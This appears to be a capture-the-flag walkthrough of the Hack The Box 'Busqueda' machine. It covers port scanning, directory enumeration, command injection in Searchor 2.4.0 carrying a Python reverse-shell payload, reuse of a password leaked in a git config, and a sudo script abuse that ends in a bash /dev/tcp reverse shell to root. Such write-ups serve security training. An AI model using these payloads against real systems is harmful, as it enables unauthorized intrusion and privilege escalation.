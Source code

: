 ## Full TCP Port Scan (Aggressive) [33s]

```bash
sudo nmap -Pn -p- -A -T4 10.129.228.217
```

```text
Starting Nmap 7.95 (https://nmap.org) at 2025-03-31 08:55 EDT
Nmap scan report for 10.129.228.217
Host is up (0.053s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Device type: general purpose
Running: Linux 5.X
OS details: Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   64.60 ms 10.10.16.1
2   32.82 ms 10.129.228.217

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 30.41 seconds
```

## Enumeration

### Port 80 (HTTP)
- Redirects to `http://searcher.htb`
- Add to `/etc/hosts`:
  ```bash
  echo "10.129.228.217 searcher.htb" | sudo tee -a /etc/hosts
  ```

### Web Directory Scanning
```bash
gobuster dir -u http://searcher.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```
```text
/search               (Status: 405) [Size: 153]
```

### Searchor Application (v2.4.0)
- Web interface at `http://searcher.htb/search`
- Vulnerable to CVE-2023-3999 (Command Injection)

## Exploitation

### Reverse Shell via Command Injection
Payload:
```python
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.12',1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

Start listener:
```bash
nc -lvnp 1234
```

Execute payload in search query to get reverse shell:
```text
$ whoami
www-data
```

### User Flag
Located in svc's home:
```bash
www-data@busqueda:/var/www/app$ cat /home/svc/user.txt
e7d4d**********************
```

## Privilege Escalation

### Git Configuration Analysis
```bash
cat /var/www/app/.git/config
```
```text
[remote "origin"]
    url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
```

### SSH Access
Add gitea domain to hosts:
```bash
echo "10.129.228.217 gitea.searcher.htb" | sudo tee -a /etc/hosts
```

Connect via SSH:
```bash
ssh svc@searcher.htb
Password: jh1usoih2bkjaspwe92
```

### Sudo Privileges
```bash
svc@busqueda:~$ sudo -l
User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

### Exploiting System-Checkup Script
Create exploit script:
```bash
echo '#!/bin/bash' > full-checkup.sh
echo 'bash -i >& /dev/tcp/10.10.16.12/4444 0>&1' >> full-checkup.sh
chmod +x full-checkup.sh
```

Start listener:
```bash
nc -lvnp 4444
```

Execute with sudo:
```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

### Root Shell
```text
connect to [10.10.16.12] from (UNKNOWN) [10.129.228.217] 39132
root@busqueda:/home/svc# cat /root/root.txt
fbbe1************************
```
